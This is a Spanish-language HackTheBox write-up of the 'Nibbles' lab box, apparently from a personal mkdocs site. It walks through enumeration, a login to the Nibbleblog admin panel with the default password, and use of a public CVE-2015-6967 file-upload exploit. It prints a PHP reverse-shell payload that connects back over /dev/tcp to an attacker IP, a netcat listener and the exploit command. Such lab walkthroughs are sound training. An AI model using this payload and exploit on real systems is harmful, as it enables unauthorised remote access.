

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/nibbles/index.html · generator: mkdocs

# Nibbles

![](../../assets/img/Pasted_image_20260529114732.png)

- ssh: Xenial

- 80 -> */10.129.96.84/nibbleblog* vemos un Nibbleblog que es un cms

![](../../assets/img/Pasted_image_20260529164121.png)

- Buscamos exploits para nibbleblog a primera vista, vemos un sql pero no parece ser que vaya por ahí, ya que los parámetros que aparecen en la index.php parecen NO influir en nada

![](../../assets/img/Pasted_image_20260529165204.png)

-
```bash
whatweb http://10.129.96.84
```

http://10.129.96.84 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.96.84]

- Gobuster no reporta nada con la ip, pero si escaneamos a partir de */nibbleblog/*

![](../../assets/img/Pasted_image_20260529165753.png)

![](../../assets/img/Pasted_image_20260529171141.png)

- /content

![](../../assets/img/Pasted_image_20260602225458.png)

No parece haber nada a simple vista excepto un par de .php que no devuelven nada a priori

- /feed.php
Vemos una IP pero no creo que sea relevante

![](../../assets/img/Pasted_image_20260602230045.png)

- /admin

![](../../assets/img/Pasted_image_20260602230351.png)

Mucho texto nada interesante a priori

- /admin.php

![](../../assets/img/Pasted_image_20260602231435.png)

Panel de control, conseguimos entrar con contraseñas default admin:nibbles

![](../../assets/img/Pasted_image_20260602231449.png)

- Buscamos algún exploit para nibbleblog 4.0.3
https://github.com/dix0nym/CVE-2015-6967
Ejecutamos el exploit tal como viene en el ejemplo
- Necesitaremos pasarle un payload que será un shell.php típico
```php
<?php exec('bash -c "bash -i >&/dev/tcp/10.10.14.96/443 0>&1"'); ?>
```

- Nos ponemos en escucha con
```bash
nc -nlvp 443
```

- Ejecutamos el exploit
```bash
python3 exploit.py -l http://10.129.96.84/nibbleblog/ -u admin -p nibbles -x shell.php
```

![](../../assets/img/Pasted_image_20260602233353.png)

Vamos a ver lo que hacía el script

![](../../assets/img/Pasted_image_20260602234242.png)

1. Se logea
2. Sube una imagen al plugin de *my_image* siendo una shell maliciosa en php
3. Accede a la imagen siendo interpretado el código php y enviando una shell a nuestro pc
nibbler
